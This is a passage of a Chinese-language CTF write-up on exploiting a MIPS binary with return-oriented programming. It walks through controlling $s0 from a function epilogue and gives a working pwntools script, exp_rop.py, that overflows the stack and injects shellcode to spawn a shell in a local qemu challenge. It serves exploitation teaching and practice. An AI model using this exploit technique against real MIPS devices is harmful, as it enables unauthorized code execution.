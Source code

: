 3. 然后要衔接上这两个gadget，让$s0的值是0x00421684。
在MIPS的复杂函数的序言和尾声中，会保存和恢复s组寄存器，我们可以下pwn()函数尾声的汇编代码：    
`.text:00400A54 lw      $s0, 0x58+var_s0($sp)`      
在0x90控制了$ra，则我们在0x90-0x7c+0x58=0x6c处，即可控制$s0     
```
.text:00400A2C loc_400A2C:
.text:00400A2C move    $sp, $fp
.text:00400A30 lw      $ra, 0x58+var_s24($sp)
.text:00400A34 lw      $fp, 0x58+var_s20($sp)
.text:00400A38 lw      $s7, 0x58+var_s1C($sp)
.text:00400A3C lw      $s6, 0x58+var_s18($sp)
.text:00400A40 lw      $s5, 0x58+var_s14($sp)
.text:00400A44 lw      $s4, 0x58+var_s10($sp)
.text:00400A48 lw      $s3, 0x58+var_sC($sp)
.text:00400A4C lw      $s2, 0x58+var_s8($sp)
.text:00400A50 lw      $s1, 0x58+var_s4($sp)
.text:00400A54 lw      $s0, 0x58+var_s0($sp)
.text:00400A58 addiu   $sp, 0x80
.text:00400A5C jr      $ra
``` 


[exp_rop.py](./exp_rop.py)
```python
from pwn import *
context(arch="mips",endian="big",log_level="debug")
io = process(['qemu-mips','./pwn'])
io.sendlineafter("number: ",b'1')

sp_addr = 0x004273C4	#addiu $a2,$sp,0x64	jalr $s0
jalr_s0_addr = 0x00400CEC  #  move $t9,$s0  jalr  $s0 

payload = b'1:' 
payload += 'a'*0x6c + p32(jalr_s0_addr) + 'a'*0x20 + p32(sp_addr)
payload += 'a'*0x64 + asm(shellcraft.sh())
io.sendlineafter("eg => '1:Job.' ",payload)
io.interactive()
```
## Ref
- https://xuanxuanblingbling.github.io/ctf/pwn/2020/09/24/mips/#
